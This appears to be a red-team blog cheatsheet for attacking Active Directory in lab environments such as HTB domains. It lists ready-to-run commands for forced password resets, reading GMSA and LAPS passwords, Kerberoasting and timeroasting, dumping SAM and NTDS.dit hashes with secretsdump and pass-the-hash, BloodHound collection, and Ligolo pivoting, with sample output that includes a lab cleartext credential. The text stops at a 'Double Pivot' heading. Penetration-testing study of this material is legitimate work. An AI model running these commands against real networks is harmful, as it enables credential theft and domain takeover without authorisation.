```yaml
---
title: "Active Directory Cheatsheet"
date: 2025-09-15 00:00:00 +1000
categories: [red team, active directory, cheatsheet]
tags: [active directory, cheatsheet, red team]
---
```


This cheatsheets covers everything AD-related:
- Enumerating and exploiting DACLs, misconfigurations with bloodyAD
- Mapping network domains with BloodHound
- Authentication, enumeration, and credential dumping across various network services with NetExec
- Pivoting with ligolo - double, triple and quad pivots, accessing internal ports


### bloodyAD

bloodyAD is an Active Directory privilege escalation swiss army knife. bloodyAD can perform specific LDAP calls to a domain controller in order to perform AD privesc. It supports authentication using cleartext passwords, pass-the-hash, pass-the-ticket or certificates and binds to LDAP services of a domain controller to perform AD privesc.

autobloodyAD: https://github.com/CravateRouge/autobloody

**Reset/Change a User’s Password (ForceChangePassword, AllExtendedRights)**

```bash
#Change the password for admin with john's permissions - john = ControlledUser - admin = User whose password we want to change
bloodyAD -u john -p 'NewPassword123!' -d $domain --host $IP set password admin 'NewPassword123!'
```

```bash
#Enumerate the attributes and ACLs of a specific group
 bloodyAD --host dc01.inlanefreight.local -d inlanefreight.local -u username -p password get object "CN=GROUP NAME,OU=Security Groups,OU=Corp,DC=ad,DC=inlanefreight,DC=local" --attr 
 distinguishedName,nTSecurityDescriptor --resolve-sd
```

Enumerate a user’s rights at the Domain Level

```bash
bloodyAD --host dc01.inlanefreight.local -d inlanefreight.local -u username -p password get object 'DC=ad,DC=inlanefreight,DC=local' --attr ntsecuritydescriptor --resolve-sd
```

Enumerate a user’s rights, permissions, and ACLs

```bash
#Enumerate a user's rights, permissions, ACLs
bloodyAD --host dc01.inlanefreight.local -d ad.inlanefreight.local -u username -p password get writable --detail
```

**Read GMSA Password (ReadGMSAPassword)**

```bash
##Use the 'ReadGMSAPassword' privilege to get the NTLM hash
nxc ldap tombwatcher.htb -u user -p password --gmsa
```

**Deleted Objects - AD Tombstones**

```bash
#Query to find deleted objects from the AD tombstone
bloodyAD -u $user -p '$password' -d $domain --host $DC get search -c 1.2.840.113556.1.4.2064 --filter '(isDeleted=TRUE)' --attr name --base 'CN=Deleted Objects,DC=ad,DC=inlanefreight,DC=local'
```

**Enable a Disabled Account**

```bash
bloodyAD -u $user -p '$password' -d $domain --host $DC remove uac $target_username -f ACCOUNTDISABLE
bloodyAD -u john.smith -p 'Password' -d htb.local --host dc01.htb.local remove uac joseph.smith -f ACCOUNTDISABLE
```

**Change a User’s SPN (for Targeted Kerberoasting)**

```bash
bloodyAD -d $domain --host $DC -u $user -p '$password' -k set object $user servicePrincipalName -v 'http/web.inlanefreight.local'
```

**Search for LAPS Passwords (with GenericAll privilege)**

```bash
bloodyAD -u $user -p '$password' -d $domain --host $DC get search --filter '(&(objectCategory=computer)(ms-MCS-AdmPwd=*))' --attr ms-MCS-AdmPwd --base 'ou=servers,dc=reflection,dc=vl'

ldapsearch -x -H ldap://10.10.151.149 -D "abbie.smith@reflection.vl" -w 'password' -b 
"ou=servers,dc=reflection,dc=vl" "(&(objectCategory=computer)(ms-MCS-AdmPwd=*))" ms-MCS-AdmPwd
```

### netexec

NetExec (a.k.a nxc) is a network service exploitation tool that helps automate assessing the security of large networks.

**Kerberoasting / Targeted Kerberoasting**

```bash
nxc ldap IP -u user -p password --kerberoast kerberoast.out
```

**RBCD / GenericAll Exploitation without a Machine Account**

```bash
##Query Machine Account Quota (MAQ) - 0 = we CANNOT create computer objects
nxc ldap $dc -u $user -p $password -M maq
```

**Timeroasting**

```bash
nxc smb $domain -M timeroast
```

**Query LDAP**

```bash
nxc ldap <ip> -u username -p password --query "(sAMAccountName=Administrator)" ""
nxc ldap <ip> -u username -p password --query "(sAMAccountName=Administrator)" "sAMAccountName objectClass pwdLastSet"
#Get User Descriptions
nxc ldap <hostname> -u <user> -p <pass> -M get-desc-users
```

**Find Misconfigured Delegation**

```bash
#Find Misconfigured Delegation
nxc ldap $IP-u $user -p $password --find-delegation

# Example Output

SMB    192.168.56.11   445   WINTERFELL   [*] Windows 10 / Server 2019 Build 17763 x64 (name:WINTERFELL) (domain:north.sevenkingdoms.local) (signing:True) (SMBv1:False)
LDAP   192.168.56.11   389   WINTERFELL   [+] north.sevenkingdoms.local\eddard.stark:FightP3aceAndHonor! (Pwn3d!)
LDAP   192.168.56.11   389   WINTERFELL   AccountName  AccountType DelegationType                     DelegationRightsTo
LDAP   192.168.56.11   389   WINTERFELL   ------------ ----------- ---------------------------------- ----------------------------------------------------------------
LDAP   192.168.56.11   389   WINTERFELL   sansa.stark  Person      Unconstrained                      N/A
LDAP   192.168.56.11   389   WINTERFELL   jon.snow     Person      Constrained w/ Protocol Transition CIFS/winterfell, CIFS/winterfell.north.sevenkingdoms.local
LDAP   192.168.56.11   389   WINTERFELL   jon.snow     Person      Resource-Based Constrained         RBCD-COMPUTER$
LDAP   192.168.56.11   389   WINTERFELL   CASTELBLACK$ Computer    Constrained                        HTTP/winterfell, HTTP/winterfell.north.sevenkingdoms.local
LDAP   192.168.56.11   389   WINTERFELL   пользователь Person      Resource-Based Constrained         WINTERFELL$
```

### Impacket

Impacket is a collection of Python classes for working with network protocols. Impacket is focused on providing low-level programmatic access to the packets and for some protocols (e.g. SMB1-3 and MSRPC) the protocol implementation itself. Packets can be constructed from scratch, as well as parsed from raw data, and the object-oriented API makes it simple to work with deep hierarchies of protocols. The library provides a set of tools as examples of what can be done within the context of this library.

Get a TGT for a user

```bash
impacket-getTGT $domain/'user':'password'
impacket-getTGT htb.local/'john':'Password123'
```

Dump database

```bash
impacket-secretsdump DOMAIN/username:password@IP
#Dumping secrets with a hash
impacket-secretsdump htb.local/john@10.10.10.5 -hashes :aad3b435b51404eeaad3b435b51404ee:32ed87bdb5fdc5e9cba88547376818d4
#Dump local SAM & SYSTEM files
impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL
#Dump local NTDS.dit (AD database)
impacket-secretsdump -ntds ntds.dit -system SYSTEM -security SECURITY LOCAL
```

Connecting to an MSSQL server

```bash
impacket-mssqlclient DOMAIN/username:password@IP
#Connecting to an MSSQL server with a hash
impacket-mssqlclient htb.local/john@10.10.10.5 -hashes :32ed87bdb5fdc5e9cba88547376818d4
```

### BloodHound

BloodHound is an Attack Path Management solution that continuously maps and quantifies Active Directory attack paths. It helps eliminate millions—even billions—of attack paths within your existing architecture, removing the attacker’s easiest, most reliable, and most attractive techniques.

**Collection**

```bash
nxc ldap $domain -u $user -p $password --bloodhound --collection All --dns-server $IP

bloodhound-python -d $domain --zip -c All -ns $IP -u $user -p $password
```

### Pivoting with Ligolo

Ligolo-ng is a simple, lightweight and fast tool that allows pentesters to establish tunnels from a reverse TCP/TLS connection using a tun interface (without the need of SOCKS).

**Single Pivot**

```powershell
sudo ip tuntap add user $(whoami) mode tun ligolo #Add user
sudo ip link set ligolo up
```

**Single Pivot (same IP range)**

Pivoting when the target IP range is the same range as your IP (e.g both 10.10 range)

```bash
sudo ip tuntap add user $(whoami) mode tun ligolo #Add user
sudo ip link set ligolo up
sudo ip route add 10.10.146.86 via 10.8.5.206  #Add the machine IP (10.10.146.86) via your VPN IP (10.8.5.206)
sudo ip route add 10.10.146.80/28 dev ligolo   #Add a route between 10.10.146.80 to .95

```

**Port Forwarding**

If you need to access the local ports of the currently connected agents, there’s a “magic” CIDR hardcoded in Ligolo-ng: 240.0.0/4 (This is an unusual IPv4 subnet). If you query an IP address on this subnet, Ligolo-ng will automatically redirect traffic to the agent’s local IP address (127.0.0.1).

```bash
sudo ip route add 240.0.0.5/32 dev ligolo-portfwd
nmap -Pn 240.0.0.5 -p3306
```

**Double Pivot**
